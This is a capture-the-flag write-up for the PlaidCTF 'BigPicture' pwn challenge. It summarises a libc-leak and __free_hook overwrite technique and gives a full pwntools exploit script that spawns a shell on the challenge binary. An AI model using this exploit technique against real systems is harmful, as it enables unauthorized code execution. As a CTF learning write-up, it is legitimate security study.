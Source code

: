 ```yaml
---
title: "PlaidCTF -- BigPicture Writeup"
categories:
  - PlaidCTF
tags:
  - CTF
  - pwn
---
```


> Big picture

<div class="notice--info">
<strong>Name</strong>: BigPicture<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 200<br>
<strong>Solves</strong>: 67<br>
<strong>Given</strong>: <code>bigpicture</code>, <code>bigpicture.c</code>, <code>libc-2.23.so</code><br> <!-- Link the files here to my repository with it -->
</div>


# Solution sumary (solved after the CTF was finished):
Based my exploit on this writeup: [bigpicture write up](https://amritabi0s.wordpress.com/2017/04/24/plaid-ctf-2017-bigpicture-write-up)<br><br>
Sumary:
1. Find the `libc offset` in relation to our buffer
2. Find the `libc base` address by leaking some value in the libc data section which contains a pointer to semewhere else in the libc (I used `__memalign_hook`)
3. Overwrite `__free_hook` with a pointer to `system`
4. Write `"/bin/sh\x00"` in the buffer, since the free is going to be called on that buffer
5. Execute the `quit` command and the `free(buf)` call should instead call `system("/bin/sh")` and spawn a shell
6. **The write up explains everything in more detail, go read it!**

## What I learned for the next CTF:
1. If we allocate a large enought chunk, that chunk will not be on the heap section, but instead the malloc will call `mmap` and (at least for this case) the address will be **relative to the LIBC_BASE address**, allowing to find where the libc is in relation to the chunk allocated.
2. I also learned that you can find the libc base address by looking at some pointers in the libc data section, (I assumed it was possible, but had never tried it before)
3. As I had previouly learned the libc hooks (malloc_hook, free_hook..) are a great way to redirect code execution if you find a way to overwrite them

# Exploit
```python
#!/usr/bin/python
from pwn import *

TESTING_LOCAL = True

if TESTING_LOCAL:
    # Libc offsets
    __memalign_hook_OFFSET = 0x398ae0
    __free_hook_OFFSET     = 0x39a788
    SYSTEM_OFFSET          = 0x3f460

    # Ofsets related to the buffer
    LIBC_OFFSET_TO_BUF = -0x497010
    __free_hook_OFFSET_TO_BUF     = LIBC_OFFSET_TO_BUF + __free_hook_OFFSET
    __memalign_hook_OFFSET_TO_BUF = LIBC_OFFSET_TO_BUF + __memalign_hook_OFFSET
    __memalign_hook_content_TO_LIBC_OFFSET = 0x7c240
else:
    pass

def go():
    if TESTING_LOCAL == True:
        p = process("./bigpicture")
    else:
        p = remote("bigpicture.chal.pwning.xxx", 420)

    WIDTH  = 1024
    HEIGHT = 1024
    p.sendlineafter("big? ", "%d x %d" % (WIDTH, HEIGHT))

    def get_val(offset):
        return [offset/HEIGHT, offset%HEIGHT]

    def plot(x, y, c):
        p.sendlineafter(">", " %d , %d , %c " % (x, y, c), )

    def leak_byte(offset):
        val = get_val(offset)
        plot(val[0], val[1], "\x00")
        res = p.recvuntil("\n", timeout = 2)
        if "overwriting" not in res:
            return "\x00"
        else:
            return res.split("overwriting ")[1].split("!")[0]

    def write_byte(offset, c):
        val = get_val(offset)
        plot(val[0], val[1], c)

    # Check if the offset is write, by checking whether we find the string "ELF" at that location
    check_if_we_got_libc = leak_byte(LIBC_OFFSET_TO_BUF+1) + leak_byte(LIBC_OFFSET_TO_BUF+2) + leak_byte(LIBC_OFFSET_TO_BUF+3)
    assert check_if_we_got_libc == "ELF"
    log.success("Found libc base at offset: %s" % hex(LIBC_OFFSET_TO_BUF))

    leaked_memallign_content = leak_byte(__memalign_hook_OFFSET_TO_BUF+0) + leak_byte(__memalign_hook_OFFSET_TO_BUF+1) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+2) + leak_byte(__memalign_hook_OFFSET_TO_BUF+3) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+4) + leak_byte(__memalign_hook_OFFSET_TO_BUF+5)
    leaked_memallign_content = u64(leaked_memallign_content.ljust(8, "\x00"))
    LIBC_BASE = leaked_memallign_content - __memalign_hook_content_TO_LIBC_OFFSET

    # Leak meamallign_hook content so we can locate the LIBC_BASE
    log.info("Found memallign_hook content equals " + hex(leaked_memallign_content))
    assert LIBC_BASE & 0xfff == 0 # Ensure the last 12bits are 0. If not it surely is not the libc base.
    log.success("Found libc base at " + hex(LIBC_BASE))

    SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
    log.info("SYSTEM at: " + hex(SYSTEM_ADDR))

    # Ovewrite the __free_hook with system and confirm it worked
    SYSTEM_ADDR_packed = p64(SYSTEM_ADDR)
    write_byte(__free_hook_OFFSET_TO_BUF+0, SYSTEM_ADDR_packed[0])
    write_byte(__free_hook_OFFSET_TO_BUF+1, SYSTEM_ADDR_packed[1])
    write_byte(__free_hook_OFFSET_TO_BUF+2, SYSTEM_ADDR_packed[2])
    write_byte(__free_hook_OFFSET_TO_BUF+3, SYSTEM_ADDR_packed[3])
    write_byte(__free_hook_OFFSET_TO_BUF+4, SYSTEM_ADDR_packed[4])
    write_byte(__free_hook_OFFSET_TO_BUF+5, SYSTEM_ADDR_packed[5])
    write_byte(__free_hook_OFFSET_TO_BUF+6, SYSTEM_ADDR_packed[6])
    write_byte(__free_hook_OFFSET_TO_BUF+7, SYSTEM_ADDR_packed[7])

    leaked_free_hook = leak_byte(__free_hook_OFFSET_TO_BUF+0) + leak_byte(__free_hook_OFFSET_TO_BUF+1) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+2) + leak_byte(__free_hook_OFFSET_TO_BUF+3) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+4) + leak_byte(__free_hook_OFFSET_TO_BUF+5)
    leaked_free_hook = u64(leaked_free_hook.ljust(8, "\x00"))
    assert leaked_free_hook == SYSTEM_ADDR
    log.success("Successfully written free_hook with system's addr")

    for i, c in enumerate("/bin/sh"):
        write_byte(i, c)

    p.sendline("quit")
    p.clean()
    p.sendline("echo HELLO")
    assert p.recvuntil("HELLO") == "HELLO"
    log.success("We got a shell ;)!")

    p.interactive()

go()
```
